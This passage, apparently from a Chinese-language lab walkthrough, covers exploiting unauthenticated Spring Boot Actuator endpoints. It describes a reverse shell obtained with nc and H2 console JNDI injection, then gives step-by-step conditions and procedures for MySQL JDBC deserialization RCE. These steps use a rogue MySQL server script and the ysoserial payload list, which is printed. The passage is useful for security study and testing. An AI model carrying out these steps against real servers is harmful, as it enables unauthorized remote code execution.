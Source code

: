 ![image-20210830211055253](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210830211055253.png)



可以看到nc连接shell成功

![image-20210830211733059](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210830211733059.png)



##### 利用原理

- 设置恶意url参数向h2-console/login.do?session=xxxx发出请求
- 服务器访问恶意url中的RMI服务，发生JNDI注入
- RMI服务执行其他的恶意代码




详细分析参见

[Spring Boot + H2数据库JNDI注入](https://mp.weixin.qq.com/s/Yn5U8WHGJZbTJsxwUU3UiQ)



#### 2.9. mysql jdbc deserialization RCE

> 该环境需要安装Mysql服务和新建数据库，主要还是application.properties配置文件，注意里面的数据库相关配置(请求的数据库名，数据库账户和密码)

##### 利用条件

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标环境中存在 `mysql-connector-java` 依赖
- 目标可以请求攻击者的服务器（请求可出外网）



##### 利用方法

**步骤一：查看环境依赖**

GET 请求 `/env` 或 `/actuator/env`，搜索环境变量（classpath）中是否有 `mysql-connector-java`  关键词，并记录下其版本号（5.x 或 8.x）；

搜索并观察环境变量中是否存在常见的反序列化 gadget 依赖，比如  `commons-collections`、`Jdk7u21`、`Jdk8u20` 等；

搜索 `spring.datasource.url` 关键词，记录下其 `value`  值，方便后续恢复其正常 jdbc url 值。



**步骤二：架设恶意 rogue mysql server**

在自己控制的服务器上运行 [springboot-jdbc-deserialization-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py) 脚本，并使用 [ysoserial](https://github.com/frohoff/ysoserial) 自定义要执行的命令：

这里使用反序列工具ysoserial(包含所有攻击方式，在环境包中的target目录下)ysoserial可以设置的命令参数如下:

```
$  java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial.jar [payload] '[command]'
  Available payload types:
     Payload             Authors                     Dependencies
     -------             -------                     ------------
     AspectJWeaver       @Jang                       aspectjweaver:1.9.2, commons-collections:3.2.2
     BeanShell1          @pwntester, @cschneider4711 bsh:2.0b5
     C3P0                @mbechler                   c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Click1              @artsploit                  click-nodeps:2.3.0, javax.servlet-api:3.1.0
     Clojure             @JackOfMostTrades           clojure:1.8.0
     CommonsBeanutils1   @frohoff                    commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsCollections1 @frohoff                    commons-collections:3.1
     CommonsCollections2 @frohoff                    commons-collections4:4.0
     CommonsCollections3 @frohoff                    commons-collections:3.1
```